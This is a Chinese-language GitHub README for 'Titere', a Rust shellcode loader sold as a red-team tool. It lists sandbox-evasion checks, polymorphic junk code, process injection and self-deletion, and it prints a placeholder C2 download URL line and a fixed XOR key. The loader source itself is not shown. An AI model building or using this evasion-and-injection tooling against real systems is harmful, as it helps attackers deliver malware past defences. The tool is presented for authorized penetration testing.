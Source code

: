 # Titere - 高级Shellcode加载器

一个集成了多种高级反检测技术的 Rust Shellcode 加载器，专为红队渗透测试设计。

## 🎯 核心功能

### 主程序 (src/main.rs) - Shellcode加载器
- **沙箱对抗**：运行时间检测、用户交互检测、环境特征检测、进程检测
- **行为伪装**：延迟执行、正常文件访问、多态垃圾代码、假解密操作
- **Shellcode加载**：远程下载、XOR解密、进程注入执行
- **自清理**：执行后自删除、痕迹清理

### 加密工具 (encrypt_project/src/main.rs) - Shellcode加密器
- **Shellcode处理**：自动检测.bin文件、XOR加密处理
- **数据混淆**：固定密钥加密、批量文件处理

## 🛠️ 技术架构

### Shellcode加载流程
1. **沙箱检测** - 确保在真实环境中执行
2. **行为伪装** - 混淆真实意图
3. **远程获取Shellcode** - 从C2服务器下载加密数据
4. **XOR解密Shellcode** - 使用固定密钥解密
5. **进程注入执行** - 注入目标进程并执行

### 沙箱检测技术
- 系统运行时间检测
- 用户交互检测
- 环境特征检测
- 沙箱进程检测

### 进程注入技术
- 远程内存分配
- 写入shellcode
- 创建远程线程执行

## 🚀 快速开始

### 环境要求
- Windows 操作系统
- Rust 开发环境
- 管理员权限

### 编译安装
```bash
# 克隆项目
git clone https://github.com/9Insomnie/TitereV1.0.git
cd Titere

# 编译主程序
cargo build --release

# 编译加密工具
cd encrypt_project
cargo build --release
```

### 使用方法

#### Shellcode加载器
```bash
# 直接运行
cargo run

# 或运行编译后的可执行文件
./target/release/loader.exe
```

#### Shellcode加密器
```bash
cd encrypt_project
cargo run
```

## 🔧 配置说明

### C2服务器配置
修改 `src/main.rs` 中的C2服务器地址：
```rust
let url = "http://your-c2-server.com:port/output.bin";
```

### 加密密钥
默认XOR密钥：`[0x1A, 0x2B, 0x3C, 0x4D, 0x5E, 0x6F, 0x7A, 0x8B]`

## 🎯 红队使用场景

1. **初始访问**：绕过沙箱检测，加载初始shellcode
2. **权限提升**：注入高权限进程，执行提权shellcode
3. **横向移动**：远程代码执行，进程间shellcode传播
4. **持久化**：隐蔽shellcode加载，维持访问

## 📊 技术细节

### 多态代码技术
- 模拟数学计算
- 模拟字符串处理
- 模拟数组操作
- 模拟时间获取

### 自删除技术
- 延迟3秒后删除自身文件
- 使用cmd命令执行删除操作

## ⚠️ 重要声明

**本工具仅用于授权的红队渗透测试。使用者必须获得目标系统的明确授权，并遵守相关法律法规。作者不承担任何因非法使用而产生的法律责任。**

## 📞 联系方式

- GitHub Issues: [@9Insomnie](https://github.com/9Insomnie)
- 个人主页: [9Insomnie](https://github.com/9Insomnie)

---

**⚠️ 再次提醒：请确保在授权环境中使用本工具，遵守相关法律法规。** 

